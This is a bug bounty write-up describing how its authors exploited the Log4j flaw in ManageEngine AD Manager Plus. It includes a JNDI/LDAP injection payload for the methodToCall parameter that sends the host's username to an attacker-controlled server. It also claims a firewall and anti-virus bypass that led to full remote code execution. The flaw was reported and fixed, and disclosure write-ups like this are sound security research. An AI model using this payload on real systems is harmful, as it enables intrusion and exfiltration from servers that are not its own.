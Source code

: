 ### Description

In the summer of 2022, I have been doing security engagement on Synack Red Team in the collaboration with my good friend (Thura Moe Myint). At that time, Log4j was already widespread on the internet. Manage Engine had already patched the Ad Manager Plus to prevent it from being affected by the Log4j vulnerability. They had mentioned that Log4j was not affected by Ad Manager Plus. However, we determined that the Ad Manager Plus was running on our target and managed to exploit the Log4j vulnerability.

### Exploitation

First, Let’s make a login request using  proxy.

![](https://raw.githubusercontent.com/channyein1337/research/main/images/admanager.png)

Inject the following payload in the methodToCall parameter in the [ADSearch.cc](http://ADSearch.cc) request.

```
${jndi:ldap://${sys:user.name}.<your-server>}
```

![](https://raw.githubusercontent.com/channyein1337/research/main/images/burp_request.png)

Then you will get the dns callback with username in your burp collabrator.

![](https://raw.githubusercontent.com/channyein1337/research/main/images/username.png)

POC Of Achieving Full RCE

![](https://raw.githubusercontent.com/channyein1337/research/main/images/poc.png)


### Notes

When we initially reported this vulnerability to Synack, we only managed to get a DNS callback and our report was marked as LDAP injection. However, we attempted to gain full RCE on the host but were not successful. Later, we discovered that Ad Manager Plus was running on another target, so we tried to get full RCE on that target. We realized that there was a firewall and an anti-virus running on the machine, so most of our payloads wouldn't work. After spending a considerable amount of time , we eventually managed to  bypass the firewall and anti-virus, and achieve full RCE.

### Conclusion

We had already informed Zoho about the log4j vulnerability, and even after it was fixed, they decided to reward us with a bonus bounty for our report.
